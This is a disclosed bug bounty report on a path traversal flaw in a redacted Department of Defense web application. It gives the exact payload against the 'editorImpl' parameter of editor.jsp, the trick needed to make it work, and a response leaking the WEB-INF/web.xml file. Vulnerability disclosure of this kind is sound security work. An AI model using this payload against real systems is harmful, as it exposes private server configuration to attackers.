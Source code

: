 # Path traversal on ████████

## Report Details
- **Report ID**: 217344
- **URL**: https://hackerone.com/reports/217344
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-03-30T20:55:32.124Z
- **Disclosed**: 2019-10-04T15:23:01.052Z

## Reporter
- **Username**: twicedi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
The web application hosted on the "█████████" domain is affected by a path traversal vulnerability that could permit to an attacker to include arbirtary files that are outside of the restricted directory.

**Description:**
The affected handler is the "/html/js/editor/editor.jsp".
This handler receives, through the "editorImpl" parameter, an input from the user to construct a pathname that is intended to identify a file, but the web app does not properly neutralize "dot-dot-slash (../)" within the pathname that can cause the pathname to resolve to a location that is outside of the restricted directory as showed in the following example in which the web.xml configuration file is included:

Example of payload:
> ../../../WEB-INF/web.xml?

URL: 
(Note: the last question mark char ("?") is necessary to exploit the vulnerability otherwise an error is triggered, with a full stacktrace) 
```
https://████/html/js/editor/editor.jsp?editorImpl=../../../WEB-INF/web.xml?
```

```
HTTP/1.1 200 OK
Content-Type: text/html
Server: Microsoft-IIS/8.5
X-Powered-By: ASP.NET
Date: Thu, 30 Mar 2017 20:24:43 GMT
Connection: close
Content-Length: 54193


<?xml version="1.0"?>

<web-app xmlns="http://java.sun.com/xml/ns/j2ee" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" version="2.4" xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd">
	<context-param>
		<param-name>contextClass</param-name>
		<param-value>com.liferay.portal.spring.context.PortalApplicationContext</param-value>
	</context-param>
	<context-param>
```